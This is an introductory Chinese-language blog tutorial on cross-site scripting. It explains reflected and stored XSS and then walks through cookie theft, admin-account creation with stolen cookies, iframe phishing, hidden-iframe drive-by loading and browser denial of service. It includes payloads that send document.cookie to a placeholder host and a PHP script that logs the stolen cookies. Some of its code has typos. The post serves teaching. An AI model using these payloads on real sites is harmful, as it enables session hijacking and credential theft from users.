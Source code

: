 ```yaml
---
title: WEB安全-一-：XSS初探
date: 2022-06-23 23:04:54
tags:
  - 安全
categories:
  - WEB安全
description: 
---
```


### `郑重提醒：本文仅限于讨论安全技术，请勿用作非法用途，严禁利用本文所提漏洞和技术进行非法攻击，否则后果自负，本人不承担任何责任！`
### `什么是XSS`

> 跨站脚本（cross site script）为了避免与样式css混淆，所以简称为XSS。XSS是一种经常出现在web应用中的计算机安全漏洞，也是web中最主流的攻击方式，  
> XSS是指恶意攻击者`利用`网站没有对用户提交数据进行转义处理或者过滤不足的`缺点`，进而添加一些代码，嵌入到web页面中去。使别的用户访问都会执行相应的嵌入代码。从而盗取用户资料、利用用户身份进行某种动作或者对访问者进行病毒侵害的一种攻击方式。

### `XSS的分类`

*   XSS根据特性和入侵手法不同，主要分为两大类型，一种是反射型XSS，一种是持久性XSS

### 反射型xss

> 也成为非持久性xss，这种漏洞攻击是最常见的，使用最多的一种，主要的攻击方式是讲脚本附加到url地址的参数中，如下

```js
https://zhuanlan.zhihu.com/p/54289849/edit.php?key="><script>alert("xss")</script>
```

> 这种一般是利用攻击手法，诱骗用户点击恶意url，一般此类代码只执行一次，所以为反射型xss，

### 持久型xss

> 也叫做存储型xss，一般在进行漏洞攻击时，会吧此类危害存入到数据库中，所以会在用户访问该页面时弹出被入侵的代码，下面列一段简单的存储型xss

```js
<body>
    <!--留言板-->
    <textarea></textarea>
    <button>提交</button>
</body>
```

> 比如上面代码，我们在textarea中输入留言，然后提交到数据库。如果我们按照下面这种方式提交

![](https://pic1.zhimg.com/v2-f058269f7ba9c0e63c198656f2725578_b.jpg)

![](https://pic1.zhimg.com/80/v2-f058269f7ba9c0e63c198656f2725578_1440w.jpg)

> 这样在浏览器输入该留言的时候，代码就会变成下面这样

```js
<body>
    <!--留言板-->
    <textarea></textarea><script>alert('xss')</script><textarea></textarea>
    <button>提交</button>
</body>
```

> 

### `常见的XSS剖析`

> 介绍完xss的分类后，相信大家对xss有一个初步的链接，接下来会介绍一些xss的常见技术，其中涉及一些javascript知识，另外，`常见技术仅用于讨论，请勿用于其他网站`

> `1，cookie窃取`

> 窃取cookie是xss攻击中最常用的方式，因为cookie在很多网站中用于保存会话，比如我们常见的网站，往往在输入密码后，为了避免每次浏览多次输入，会勾上记住密码选项，这样，cookie就会保存在我们本地，

> 由于cookie 从客户端和服务端都可以访问，首先从客户端来讲，输入document.cookie就会弹出cookie的相关信息

> 那么，我们如何窃取cookie？ 假设一个网站存在xss攻击，那么，我们就可以编写恶意代码获取cookie信息

```js
<script>
    document.location = "https://www.xxx.com/xss.php?cookie='document.cookie;
</script>

<img src="https://www.xxx.com/xss.php?cookie='document.cookie" />
```

> php 获取信息 xss.php

```js
<?php
  $cookie = $GET['cookie'];
  $log = fopen('cookie.txt','a');
  fwrite($log, $cookie ."\\n");
  fclose($log)
?>
```

> 这样，在获取到cookie之后，就可以利用一些欺骗工具，然后把cookie复制到受害网站上面，进行登录

> `2，权限提升`

> 权限提升是指当网站有漏洞的时候，我们根据管理员添加人员的信息接口，实现接口拦截，然后增加自己的信息创建代码

> 比如我们的网站添加成员的接口为 /admin/addUser.php

> 提交的post数据为 username=admin&password=123456&cookie=xxxxxx

> 那么，当我们拦截到被攻击者的cookie，我们可以利用ajax发送一个post请求，由于我们的请求带上了被攻击者的cookie，所以能请求成功，在后台添加一个账号。

> `3，xss网络钓鱼`

> 传统的xss钓鱼攻击是通过复制网站，然后利用骗取用户点击假网站链接，然后获取账号密码，虽然这种方式容易麻痹用户，但是由于域名不一样，很多用户还是容易识破

> 当结合xss技术后，hack就可以通过javascript动态控制页面内容

> 我们可以在有漏洞页面插入如下xss

```js
https://www.baidu.com?s=<srcipt src=https://www.xxx.com/xss.js><script>
```

> 当用户访问当前连接，就会调用xss

```js
document.body.innerHTML=(
        '<div style="position: absolute;top:0;left:0;width: 100%;height: 100%">' +
        '<iframe src=https://www.xxx.com/xss.html width=100% height=100%>' +
        '</iframe></div>'
    );
```

> 这样，就会加载iframe，我们在iframe放入密码框，就可以欺骗用户输入。

> `4，网页挂马`

> 网页挂马是指当用户访问一个网页之后，就会被运行了密码程序，然后被入侵电脑，做其他的事情

> 在xss中使用挂马的方式很简单，只要找到有漏洞的网站执行以下代码

```js
<script>
   document.write("<ifream src=http://www.xxx.com/xss.html width=0 height=0></ifream>")
</script>
```

> `5，DOS和DDOS`

> dos指拒绝服务供给，这种攻击指利用大量数据让系统崩溃，考虑以下代码

```js
<script>
   for(;;){
    $.ajax({});
   }
</script>

————————————————————————————分割线————————————————

<meta http-equiv='refresh' content='0'>
```

> 当你保存这段代码为html后，用浏览器打开，分割线上面代码此时会出现无线请求ajax 现象，这样会造成浏览器的死循环。 分割线下面代码则会造成网页无线刷新

> ddos就是指分布式拒绝服务攻击，说简单了就是多台电脑执行dos攻击

> 

### `结尾`

> 以上就是今天给大家带来初探xss的所有内容，说起xss。我也是研究了一周左右，所以很多地方有错误在所难免，而且今天的文章算是一个入门，让大家知道xss的危害，以及执行的方法。
